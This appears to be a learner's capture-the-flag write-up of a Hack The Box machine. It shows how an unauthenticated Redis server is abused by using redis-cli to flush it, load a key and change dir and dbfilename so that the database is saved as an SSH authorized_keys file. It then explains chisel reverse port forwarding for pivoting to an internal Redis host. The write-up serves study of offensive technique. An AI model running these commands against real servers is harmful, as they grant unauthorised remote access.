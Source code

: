 ![](excellent.png)

[Reading](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html) this database RCE involves write file to the file system by putting out file into Redis server memory and then transfering it.
```bash
$ redis-cli -h 192.168.1.11 flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
# Looks good. How to dump our memory content into the authorized_keys file? 
# That’s kinda trivial.
$ redis-cli -h 192.168.1.11192.168.1.11:6379> config set dir /Users/antirez/.ssh/OK192.168.1.11:6379> config get dir
1) "dir"
2) "/Users/antirez/.ssh"192.168.1.11:6379> config set dbfilename "authorized_keys" 
OK
192.168.1.11:6379> save
OK
```

There is also [https://github.com/Ridter/redis-rce/blob/master/redis-rce.py](https://github.com/Ridter/redis-rce/blob/master/redis-rce.py) creates a server to interact with the redis database.  

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#pivoting

## Returning Day 8 to Redis

The intial first four days for attempts got all the pieces ready for me, but as a remediation against step over issues  that I have overcome over months of other boxes and research.  

Chiselling to box
![](day8chiseltoredis.png)
A breakdown of this to really hammer home everything I have learnt over the last 6 months:
```bash
# First client to connect to a server
chisel client $serverIP:$serverPort
# Server is configured for reverse with -reverse 
# Therefore the syntax is R: for reverse
# Serving the traffic TO localhost and port
R:$localhostIPv4:$locahostPort: # :...
# ...:
:172.19.0.2:6379 # The address and port to reverse port forward traffic so that it is visible from 
# $localhost:$localPort
```
We are reversing - ie using the NodeRED box to send traffic that only it can reach to a chisel-server that can serve the traffic to us. Port redirection locally would be if we were using a client from our machine. Dynamic port redirection would be that we can access any address and port behind the NodeRED from one server ie .4, .3 and .2 addresses.

nmap as proof
![](nmapredisthroughrevportfwdproof.png)
